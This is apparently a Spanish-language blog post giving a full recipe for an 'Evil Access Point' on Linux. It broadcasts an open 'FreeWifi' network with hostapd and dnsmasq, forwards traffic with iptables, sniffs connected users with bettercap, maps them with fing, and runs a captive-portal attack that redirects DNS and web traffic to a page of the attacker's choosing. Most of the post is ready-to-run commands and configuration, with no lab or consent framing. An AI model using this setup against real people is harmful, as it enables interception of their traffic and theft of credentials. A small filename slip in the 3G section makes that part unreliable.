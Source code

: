 ```yaml
---
layout: post
title: Evil Access Point
---
```


Evil Access Point with Linux

![_config.yml]({{ site.baseurl }}/images/20160711.jpeg)


# Materiales
* TL-WN722N (tarjeta de red tp-link)


# Instalando las herramientas
```
sudo apt-get update && sudo apt-get dist-upgrade -y
sudo apt-get install -y hostapd dnsmasq wireless-tools iw
```

### Instalando bettercap
```
sudo apt-get install curl ruby-dev libpcap-dev -y
sudo gem install bettercap
```

# Configuracion
Para trabajar recomiendo crear una carpeta con algun nombre caracteristico como `fakeap`. Luego, crear 3 archivos de configuracion usando algun editor de texto (dentro de la carpeta creada). En el caso de iptables, hay que darle permisos de ejecucion `chmod +x iptables` Suponiendo que trabajaremos con `eth0` y `wlan0`

### iptables
```
ifconfig wlan0 10.0.0.1/24 up
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward
```

### dnsmasq.conf
```
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

### hostapd.conf
```
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=6
```

# Automatizando la configuracion
Creamos un archivo con algun nombre caracteristico, por ejemplo `initconfig` luego, darle los correspondientes permisos de ejecucion `chmod +x initconfig`

```bash
#!/bin/bash

# Configuraciones iniciales
upstream=eth0
phy=wlan0

# levantando interfaz
ifconfig $phy 10.0.0.1/24 up

# configurando iptables
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o $upstream -j MASQUERADE
iptables -A FORWARD -i $phy -o $upstream -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward

# Configurando dnsmasq
cat <<EOF > dnsmasq.conf
interface=$phy
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Configurando hostapd
cat <<EOF > hostapd.conf
interface=$phy
driver=nl80211
ssid=FreeWifi
channel=6
EOF
```

# Evil Access Point UP!
Ahora que tenemos las configuraciones hechas, nos toca levantar el Access Point. Para eso ejecutaremos en cada terminal distinta lo siguiente:

```
sudo ./initconfig

sudo dnsmasq -C dnsmasq.conf -d

sudo hostapd hostapd.conf
```

### Bettercap
Iniciamos el sniffer (podemos ocupar cualquiera mientras realice sniffing pasivo, pero esta vez elegí bettercap)

```
sudo su
bettercap -I wlan0 --no-discovery --no-spoofing -X
```

# Revisando la red
Para poder ver quien esta en la red interna se recomienda descargar fing desde la página oficial: [https://www.fing.io/download/](https://www.fing.io/download/){:target="_blank"}

```
wget https://www.fing.io/wp-content/uploads/2016/10/overlook-fing-3.0.deb
sudo dpkg -i overlook-fing-3.0.deb
sudo fing 10.0.0.1/24
```

# Portal cautivo
Para realizar un ataque de portal cautivo no es necesario tener conexion a internet, solo basta levantar el Fake Access Point, pero cambiando las reglas. La idea de este ataque es dejar arriba el servicio de apache con alguna pagina a conveniencia.

```bash
iptables -F
iptables -F -t nat
#iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
#iptables -A FORWARD -i $phy -o eth0 -j ACCEPT
iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j DNAT --to 10.0.0.1
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
iptables -P FORWARD DROP
```

# En caso de ocupar 2 wlans
Muchas veces no tenemos acceso por ethernet, por lo que estamos obligados a usar wifi para recibir `wlan0` y emitir `wlan1` señal. Para estos casos las configuraciones varian un poco. (Asumiendo de que tambien hay que modificar las configuraciones anteriores como `iptables`, `dnsmasq.conf` y `hostapd.conf` con sus interfaces respectivos)

### Raspbian
Con un editor de texto hay que modificar el archivo `/etc/network/interfaces`, comentando las lineas que tengan relación con la interfaz
 que ocuparás para crear el Evil Access Point.

```
# interfaces(5) file used by ifup(8) and ifdown(8)

# Please note that this file is written to be used with dhcpcd
# For static IP, consult /etc/dhcpcd.conf and 'man dhcpcd.conf'

# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d

auto lo
iface lo inet loopback

iface eth0 inet manual

allow-hotplug wlan0
iface wlan0 inet manual
    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf

#allow-hotplug wlan1
#iface wlan1 inet manual
    #wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
```

Recomiendo reiniciar para que las configuraciones se apliquen

```
sudo reboot
```


### network-manager
Se tiene que agregar las 2 ultimas lineas del archivo `/etc/NetworkManager/NetworkManager.conf`, para evitar el conflicto entre la interfaz de red y network-manager

```
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan1
```

Ahora necesitamos reiniciar el servicio de network-manager

```
sudo service network-manager restart
```

# Conectarse por 3G
```
sudo apt-get install ppp
sudo wget "http://downloads.sourceforge.net/project/vim-n4n0/sakis3g.tar.gz?r=http%3A%2F%2Fsourceforge.net%2Fprojects%2Fvim-n4n0%2Ffiles%2F&ts=1363537696&use_mirror=tene~t" -O sakis3g.tar.gz
sudo tar -xzvf sakis36.tar.gz
sudo apt-get install sg3-utils
sudo chmod +x sakis3g
sudo ./sakis3g --interactive
```
